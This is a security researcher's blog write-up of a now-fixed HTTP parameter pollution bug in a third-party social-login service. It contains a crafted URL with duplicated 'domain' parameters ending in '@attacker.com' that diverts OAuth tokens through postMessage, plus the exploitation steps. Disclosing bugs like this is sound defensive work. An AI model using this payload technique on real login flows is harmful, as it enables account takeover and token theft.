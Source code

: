 ```yaml
---
title: How one Parameter Pollution bug left many apps vulnerable to Account Takeover
date: 2024-02-01 04:00:00 +0100
categories: [Write-ups,OAuth]
tags: [parameter_pollution,oauth,postmessage]     # TAG names should always be lowercase
---
```


## INTRO
<p align="justify">While testing a private bug bounty program that enables users to log in using their social media accounts, I noticed that most of the OAuth flow happened on a completely different domain that didn’t belong to the target. Let’s call this domain “redacted.com”.</p>

<p align="justify">I did a quick search and found out that the “redacted.com” domain belongs to a cloud-based identity management service. This service offers its customers the ability to add a social login feature to their applications, among other things. I also saw that they have a Vulnerable Disclosure Program so I decided to take a closer look at the social login flow. If you’ve read my <a href="/posts/blog1/">previous blog post</a>, you know that I like testing for OAuth bugs.</p>

<p align="justify">I ended up finding a <b>HTTP parameter pollution</b> bug that allowed me to leak authentication tokens, leaving every app using the service vulnerable to account takeover attacks.</p>

## THE SOCIAL LOGIN FLOW
<p align="justify">When a user clicks on “Login with Google” on the target app I was initially testing, a new window opens and makes a request to <b>https://redacted.com/social-login</b>. The redacted.com domain then initiates the OAuth flow with Google and finally sends the user’s authentication token, along with other user information, back to the target app via a postMessage function. The target app receives this data and uses it to log in the user.</p>

<p align="justify">The request to https://redacted.com/social-login includes a “<b>domain</b>” parameter that contains a URL of the target application. Redacted.com verifies on the backend whether the provided URL matches a whitelisted URL. If you change the value to another domain (for example, “https://attacker.com”), you will receive an error message saying that it is an invalid domain and the login flow will be terminated.</p>

<p align="justify">If the URL passes the check, the OAuth flow is initiated, and redacted.com uses the domain value to set the postMessage’s targetOrigin parameter and send the user’s auth token to the target application. The page responsible for sending the token contained a script with the following code (I simplified the actual code for the blog post):</p>

```
var reqDomain = “https://target.com”; //the domain value is reflected here
var token = “login_token_here”;

opener.postMessage(token, reqDomain);
```

<p align="justify">This check is necessary because it prevents an attacker from simply modifying the domain parameter to "https://attacker.com" and having redacted.com send a victim’s authentication token and user data to this domain. However, it was flawed.</p>

## THE VULNERABILITY
<p align="justify">I tried a few common techniques to bypass this type of check, like setting the domain to ‘target.com.attacker.com’, ‘target.com@attacker.com’, and other variations but I still got the error message. Eventually, I found a way to bypass the check and send the data to an arbitrary domain using a <b>HTTP parameter pollution</b> attack.</p>

<p align="justify">A parameter pollution attack is a type of attack that is carried out by sending multiple parameters with the same name but with different values in a URL. For example, consider the following query string: <br><b>?domain=target.com&domain=attacker.com</b>

<p align="justify">In this example, there are two “domain” parameters, but each one has a different value. Different web servers behave in different ways when receiving multiple parameters with the same name. Some will take the first occurrence (“target.com”), some will take the last one (“attacker.com”), and some will read them as an array. This can sometimes cause unexpected behaviors that can be exploited by attackers.</p>

<p align="justify">To bypass the check on redacted.com, I added a second "domain" parameter with a different value:<br>
https://redacted.com/social-login?<b>domain</b>=https://target.com&<b>domain</b>=https://attacker.com</p>

<p align="justify">This time, the request did not cause an error and the response contained the following code:</p>

```javascript
var reqDomain = “https://target.com,https://attacker.com”;
var token = “login_token_here”;

opener.postMessage(token, reqDomain);
``` 

<p align="justify">As you can see, the reqDomain variable now has the <b>two URLs</b> separated by a comma. That’s a good sign (for us at least)! I can only guess what’s causing this bypass since I don’t have access to the backend code but it’s clear that only the first domain value is validated while the second malicious domain is ignored. However, both values are returned as a comma-separated string. In this case it only worked when the first domain value was set to a valid whitelisted URL. If you switched the values, you would get an error message again.</p>

<p align="justify">Cool, we found a way to bypass the URL validation and get an unintended result. So how can we exploit this now? Our goal is to leak the authentication token, and to do so, we need to manipulate the postMessage targetOrigin parameter to send the message to a domain under our control.</p>

<p align="justify">At this point I wondered what would happen if we set the second domain parameter to "<b>@attacker.com</b>". If that resulted in a URL like "https://target.com,@attacker.com", it would technically be a valid URL, since the part before "@" would be interpreted as a username/password and the part after "@" would be the URL's domain.</p>

![url-structure](/assets/images/url-struct.jpg)

<p align="justify">Sure enough, this actually worked! Sending a request to <b>https://redacted.com/social-login?domain=https://target.com&domain=@attacker.com</b> resulted in the following response, enabling attacker.com to receive a message containing the authentication token:</p>

```javascript
var reqDomain = “https://target.com,@attacker.com”;
var token = “login_token_here”;

opener.postMessage(token, reqDomain); //sends token to attacker.com
```

## EXPLOITATION

<p align="justify">To exploit this vulnerability, an attacker can trick a victim into initiating the OAuth flow from their malicious domain by opening a new window and requesting the URL with the polluted parameters.
Once redacted.com receives the authentication token, it will send it to the attacker's domain via the postMessage() function. The attacker can then use this leaked token to gain unauthorized access to the victim's account.</p>

<p align="justify">If the victim has previously authorized Google to share their data/tokens with redacted.com, the token will be sent automatically to the attacker without needing further user interaction.</p>

<p align="justify">I don't know the exact number of apps that use this third-party service for their social login feature, but every app that did was vulnerable to account takeovers because of this basic but impactful bug.</p>

## CONCLUSION
<p align="justify">HTTP Parameter Pollution is a simple bug type, but it can have a big security impact. I’ve used it a few times before to bypass similar checks, so it’s definitely a good idea to keep it in your bag of tricks.</p>

<p align="justify">I reported the bug to the third-party service through their Vulnerable Disclosure Program and it is now fixed. However, I didn’t report the bug to the private bug bounty program I was testing. Mainly because I didn't want them to close my report as ‘Informative’ or ‘N/A’ since the vulnerability was out of their control. I kind of regret not reporting it now, but at the time, I guess I cared more about my platform stats than getting a potential bounty. What would you have done in this situation?</p>

<br>
<p align="justify">To wrap up, I'm also including a list of helpful resources for those of you who want to learn more about HTTP Parameter Pollution, OAuth and OAuth vulnerabilities.</p>

- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/04-Testing_for_HTTP_Parameter_Pollution
- https://book.hacktricks.xyz/pentesting-web/parameter-pollution

<br>

- https://developer.okta.com/blog/2017/06/21/what-the-heck-is-oauth
- https://portswigger.net/web-security/oauth
- https://www.oauth.com/
- https://www.rfc-editor.org/rfc/rfc6749

<br>

- https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/
- https://ninetyn1ne.github.io/2022-02-21-oauth-postmessage-misconfig/
- https://ysamm.com/?p=763
- https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover
- https://0xn3va.gitbook.io/cheat-sheets/web-application/oauth-2.0-vulnerabilities
- https://blog.securityinnovation.com/pentesters-guide-to-evaluating-oauth-2.0 
- https://salt.security/blog/traveling-with-oauth-account-takeover-on-booking-com 
- https://blog.dixitaditya.com/oauth-account-takeover 

